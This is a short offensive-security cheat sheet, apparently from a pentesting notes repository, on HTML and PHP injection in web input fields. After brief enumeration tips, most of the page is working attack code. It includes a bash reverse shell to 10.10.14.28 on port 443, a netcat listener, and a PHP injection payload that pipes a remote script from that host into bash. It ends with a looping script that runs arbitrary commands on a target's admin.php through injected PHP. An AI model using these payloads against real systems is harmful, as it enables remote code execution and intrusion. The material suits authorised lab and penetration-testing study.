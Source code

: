 # HTML Injection



## HTML Injection Enumeration

### **Find Input Fields**

Input fields may be found in the following examples:

* Search boxes
* Comments
* Post
* Forms

**Try inserting special characters to see if they are not filtered:**

```
< >; ' " { } ;
```

* < >; = denote elements in HTML
* ' " = denote strings on JavaScript
* {} = function declarations of JavaScript
* ; = end of a statement on JavaScript
* \<?php = PHP code
* ?> = end of PHP code

**If these characters are not removed or encoded then the website might be vulnerable to XSS:**

* URL Encoding
* HTML Encoding

**Then we might be able to code since we can use these special characters!**

Test HTML tags in input fields:

```markup
<h1>Hola</h1>
<marquee>Hola</marquee>
```

Test malicious code in other languages (e.g PHP)

```php
<?php system("whoami"); ?>
```

## Reverse Shell via PHP Injection

Create an index.html file in your webroot directory that actually executes bash code:

```bash
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.28/443 0>&1
```

Set a listener on a port of your choosing:

```
nc -lvnp 443
```

Inject a malicious PHP code:

```php
<?php system("curl 10.10.14.28 | bash"); ?>
```

### Fake Shell via Continous PHP Injection

The following code enters in a while loop to execute the commands and we use **read** to parse the output:

```bash
#!/bin/bash

function ctrl_c(){
    echo -e "\n\n[!] Saliendo...\n"
    exit 1
}

# Ctrl+C
trap ctrl_c INT

# Variables globales
main_url="http://10.10.10.27/admin.php"

while true; do
    echo -n "[~] " && read -r command
    echo; curl -s -G $main_url --data-urlencode "html=<?php system(\"$command\"); ?>" --cookie "adminpowa=noonecares" | grep "\/body" -A 500 | grep -v "\/body"; echo
done
```

The script above was made by S4vitar.

Things to keep in mind:

* Cookie = You don't need a cookie if you don't have to be authenticated.
* \-G = This sends a GET request and the content in the URL.
* grep = If you don't need to filter the output, then you may remove the grep commands.
